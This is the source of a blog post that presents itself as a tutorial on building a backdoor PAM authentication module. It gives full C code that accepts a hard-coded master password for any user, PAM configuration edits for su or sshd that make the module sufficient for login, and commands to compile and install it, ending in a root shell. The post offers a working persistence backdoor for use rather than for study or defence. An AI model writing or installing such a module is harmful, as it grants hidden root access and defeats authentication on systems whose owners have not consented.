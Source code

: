 ```yaml
---
layout: post
title:  "Tiny PAM Authentication Module Backdoor"
date:   2012-04-08 18:22:00
categories: coding
permalink: post/tiny-pam-authentication-module-backdoor/
---
```


This trick explain you how to create a **PAM module backdoor** that allow you to exec every user login with your own password.
If you try to login with the real password of user and the authentication fail, `pam_auth.so` switch to `pam_bd.so` and viceversa!

### Example of pam_bd.so module as backdoor

{% highlight c %}
/* pam_bd.so - Simple PAM Module Backdoor */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>

#define BACKPASS "SET_BACKDOOR_PASSWORD"

PAM_EXTERN int
pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_authenticate(pam_handle_t *pamh, int flags,int argc, const char **argv) {
        char *password = NULL;
        pam_get_authtok(pamh, PAM_AUTHTOK, (const char **)&password, NULL);

        if(!strncmp(password, BACKPASS, strlen(BACKPASS)))
                return PAM_SUCCESS;

        return -1;
}
{% endhighlight %}

### Configuration

Now we need to configure PAM to load our module, first edit `/etc/pam.d/su` (if you want you can edit `/etc/pam.d/sshd` or other services that uses PAM system to perform authentication) and add/mod the lines below:

{% highlight text %}
#%PAM-1.0
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so      # CHANGE TO "SUFFICIENT"
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR AUTH
account         sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR ACCOUNT
{% endhighlight %}

### Build It as library and try Login

{% highlight bash %}
eurialo $ gcc -fPIC -fno-stack-protector -c pam_bd.c
eurialo $ sudo ld -x --shared -o /lib/security/pam_bd.so pam_bd.o
eurialo $ rm pam_bd.o
eurialo $ su - root
Password: *REAL PASSWD* OR *FAKE PASSWD*
root ~ #
{% endhighlight %}

